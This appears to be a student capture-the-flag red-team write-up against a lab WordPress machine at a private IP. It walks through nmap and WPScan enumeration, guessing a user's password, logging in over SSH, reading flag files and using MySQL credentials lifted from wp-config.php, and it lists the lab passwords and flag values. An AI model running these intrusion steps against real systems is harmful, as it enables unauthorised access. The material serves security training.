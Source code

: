 # Read Team: Summary of Operations

### Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

Output Screenshot:

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Nmap-Scan.png)

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**

1. Weak Password Requirements (CWE-521) 
2. User Enumeration
3. Unsalted User Password Hash (WordPress database)

### Explotation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Commands: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

**WPScan Results:**

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/WPscan.png)

- Targeting user Michael
    - Simply guessed Michael’s password, as it was very obvious
    - Password: michael (lulz)
- Capturing Flag 1: SSH'd into Michael's account and traversed through directories and folders
    - Flag 1 found in var/www/html folder in service.html 

        - Commands:
    
        - `$ ssh michael@192.168.1.110`
        - `$ password: michael`
        - `$ cd /var/www/html`
        - `$ cat service.html`
        
![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag1.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.

        - Commands:
        
        - `ssh michael@192.168.1.110` 
        - `pw: michael`
        - `cd ../` 
        - `cd ../`
        - `cd var/www`
        - `ls'
        - `cat flag2.txt`

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag2.png) 

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Obtained mysql login credentials from the wp-config.php file found in the var/www/html/wordpress directory
        - I was able to find Flags 3 and 4 using the steps below
        - Commands:

         - `mysql -u -p`
         - `password: R@v3nSecurity`
         - `show databases;`
         - `use wordpress;` 
         - `show tables;`
         - `select * from wp_posts;`

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag3.png)

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag4.png)
